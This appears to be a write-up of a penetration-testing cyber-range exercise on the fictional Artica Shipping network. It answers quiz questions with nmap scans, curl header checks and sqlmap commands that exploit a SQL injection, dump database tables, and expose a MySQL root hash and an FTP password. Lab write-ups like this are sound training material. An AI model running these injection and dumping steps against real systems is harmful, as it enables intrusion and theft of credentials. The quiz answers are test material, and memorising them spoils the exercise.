 > The Arctica Shipping Company cyber range is an offensive range that contains a Windows domain with connected Windows hosts and an intranet website. 
> You will assume the role of a penetration tester conducting a test against Artica's internal network. You have access to its offices and internal network via an Ethernet connection. The IP addresses have been provided for the host on the network, and you've been told which is the domain controller and which host is the intrante web application server. No other information has been provided.

## Question 1: What type of server does Unknown Host 1 appear to be?
- We start scanning the specified host: `nmap -A 10.102.1.217`
- Result: 
   - 21/tcp FTP
   - 80/tcp HTTP
   - 135/tcp MSRPC
   - 445/tcp SMB 
   - 3389/tcp RDP
   - 49154/tcp MSRPC

**Answer Options**
1. FTP Server --> **Correct**, because port 21/TCP is open!
2. Fax Server --> No, because no Fax service is running
3. Sharepoint Server --> Sharepoint needs several open ports which are not open on Host 1
4. Mail Server --> No, because no Mail service is running


![grafik](https://user-images.githubusercontent.com/84674087/132572719-fda53eb8-db2f-4234-903b-c057f4c6ee81.png)

![grafik](https://user-images.githubusercontent.com/84674087/132573149-20808cf0-6599-4d35-8342-3cf0e4930545.png)

## Question 2: What version of Apache is Artica's intranet using?
- We scan all available hosts, because it is not clear which one is providing the internal web service
- `curl --head http://10.102.X.Y`
- Result: Host 4 has **Apache/2.4.29** running

#### Scans

- Unknown Host 1

![grafik](https://user-images.githubusercontent.com/84674087/132574540-6a740f35-4668-4091-8921-9c599b1cd844.png)

- Unknown Host 2

![grafik](https://user-images.githubusercontent.com/84674087/132574552-9bd95f97-fc7b-46b6-9995-acf4c26cf1f4.png)

- Unknown Host 4

![grafik](https://user-images.githubusercontent.com/84674087/132574562-13d2da92-cacf-477e-bb6a-e9a547071a9e.png)

- Unknown Host 5

![grafik](https://user-images.githubusercontent.com/84674087/132574574-69274b07-bfc0-4d95-b805-6325d0fe7da0.png)

## Question 3: What type of attack is the Artica intranet vulnerable to?

**Answer Options**
1. Cross-Site Scripting
2. SQL Injection
3. Local File Inclusion

#### Approach

- We start scanning Host 4 for vulnerabilities: `nmap -p80 --script=vuln 10.102.11.66`
- Result: It seems no obvious DOM based XSS or stored XSS vulnerability is exisiting
- Further, after analyzing the website we can confirm there is no input field available, i.e. no file upload mechanism
- The leftover option seems SQL Injection, so we follow this track ...
- A first hint: the single `'` forces an internal error

![grafik](https://user-images.githubusercontent.com/84674087/132576273-8a63dcb4-e42c-4159-8c71-4f4743c8682b.png)

- We start Burpsuite and capture the GET request from the only webpage with client interaction, i.e. with parameter transfer

![grafik](https://user-images.githubusercontent.com/84674087/132576664-df8ce7bd-c71c-4958-a4bb-6f0d039252ef.png)

- Now we start sqlmap, leverage the GET request, which we saved as "req.txt", and use "to" as paramter to check through
- `sqlmap -r req.txt -p “to”`
- The host seems vulnerable !

![grafik](https://user-images.githubusercontent.com/84674087/132576958-7295cfb8-f9a9-43ee-bda3-35ade71aa34e.png)

- Then we examine further: `sqlmap -r req.txt -p “to” --tables`
- This reveals four databases:
    - artica (2 tables)
    - information_schema
    - mysql (30 tables)
    - ...
- This confirms that **Artica's intranet is vulnerable to SQL Injections** (!)
 
![grafik](https://user-images.githubusercontent.com/84674087/132577166-ebb1138b-d8a5-4105-89f6-5a8d3094f8fe.png)

![grafik](https://user-images.githubusercontent.com/84674087/132577174-5328591e-90e2-4c29-8b2a-1faf500a0de1.png)

- We dump users from mysql and receive the mysql password hash from root !
- `sqlmap -r req.txt -p “to” -D mysql -T user --dump`: **root@localhost : *5A33F8157E73ADDBC5AE8B8C49C55F770465A270**

## Question 4: What is the username of the FTP account that can be found in the intranet database?

- `sqlmap -r req.txt -p “to” -D artica -T windows_directory --dump`
- Result: **artica-ftp-acc: 0912jgf93FSnjf**

## Question 5: Which of the following tdirectories exists on the FTP server?
1. Tools
2. Compliance
3. FTPROOT
4. ADMIN-FILES?

#### Approach
- `ftp -v 10.102.5.21 21`
- Result: **Tools**

![grafik](https://user-images.githubusercontent.com/84674087/132578183-a1d3bc76-392e-4aa7-a8fd-b581a6e5b623.png)

## Question 6: Which port is NOT open on Unknown Host 2?

- `nmap -O -sV 10.102.3.116`
- Result: Port 21

![grafik](https://user-images.githubusercontent.com/84674087/132578304-eb4d20b2-4d20-4556-bd7b-f3d8db88335b.png)

## Question 7: What is the name of the domain Unknown Host 2 is connected to?

- Tools like nbtscan, rpcclient or rdesktop did not show success
- Instead, nmap helped out thanks to its scripts
- `nmap --script=rdp* -p3389 -T4 10.102.8.99`
- Result: **artica.office**

![grafik](https://user-images.githubusercontent.com/84674087/132578728-a2e15a24-7782-4ed0-9290-3d572edd0a15.png)

![grafik](https://user-images.githubusercontent.com/84674087/132578759-a7e5dd0b-fb5a-449a-97c4-76ae75e0bca9.png)

![grafik](https://user-images.githubusercontent.com/84674087/132578776-f887a62c-b6dd-4ddd-8f57-ef1f7f43e6a5.png)

## Question 8: What is the NetBIOS computer name of Unknown Host 1?

- We simply use nmap again but upon another host
- `nmap --script=rdp* -p3389 -T4 10.102.5.21`
- Result: **ARTICA-WIN-FTP**

![grafik](https://user-images.githubusercontent.com/84674087/132578932-bdbe6948-d2ec-4e15-a566-1fa8abbd6c1f.png)

## Question 9: What type of attack is the fax server vulnerable to?

